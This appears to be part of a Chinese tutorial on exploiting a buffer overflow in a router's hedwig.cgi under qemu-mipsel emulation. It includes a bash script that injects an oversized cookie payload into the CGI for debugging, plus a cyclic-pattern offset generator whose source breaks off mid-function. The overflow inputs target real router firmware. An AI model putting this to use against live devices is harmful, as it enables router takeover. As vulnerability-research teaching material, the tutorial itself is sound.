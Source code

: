  

3.1 自己编写的调试 tesh.sh 脚本

```
#!/bin/bash
#注意：里面=和变量之间一定不要有空格，坑，否则读入空数据。
#test=$(python -c "print 'uid='+open('content','r').read(2000)") #方式一，以文件形式读入内容，提前填充好构造的数据到content文件
#test=$(python -c "print 'uid=' + 'A'*0x600" )#方式二，直接后面接数据内容
test=$(python -c "print 'uid='+open('exploit','r').read()")
#test =$(python -c "print 'uid=' + 'A'*1043 + 'B'*4")#可选构造数据
 
LEN=$(echo -n "$test" | wc -c)    #如果有看《揭秘家用路由器0day漏洞挖掘技术》书的同学，书上这里应该是填错了
PORT="1234"
cp $(which qemu-mipsel) ./qemu
sudo chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$test -E REQUEST_URL="/hedwig.cgi" -E REMOTE_ADDR="127.0.0.1" -g $PORT /htdocs/web/hedwig.cgi 2>/dev/null    #-E参数：加入环境变量 ；2>/dev/null ：不输出提示错误
rm -f ./qemu

```

3.2 利用 patternLocOffset.py 生成 content 文件，包含特定格式的 2000 个字符串。

```
python patternLocOffset.py -c -l 2000 -f content

```

patternLocOffset.py 源码附上（当然像 cyclic 这种工具也一样能实现同样效果）：

```
# coding:utf-8
'''
生成定位字符串：轮子直接使用
'''
 
import argparse
import struct
import binascii
import string
import sys
import re
import time
a ="ABCDEFGHIJKLMNOPQRSTUVWXYZ"
b ="abcdefghijklmnopqrstuvwxyz"
c = "0123456789"
def generate(count,output):
    # pattern create
    codeStr =''
    print '[*] Create pattern string contains %d characters'%count
    timeStart = time.time()
    for i in range(0,count):
        codeStr += a[i/(26*10)] + b[(i%(26*10))/10] + c[i%(26*10)%10]
    print 'ok!'
    if output:
        print '[+] output to %s'%output
        fw = open(output,'w')
        fw.write(codeStr)
        fw.close()
        print 'ok!'
    else:
        return codeStr
    print "[+] take time: %.4f s"%(time.time()-timeStart)
 
def patternMatch(searchCode, length=1024):
 
```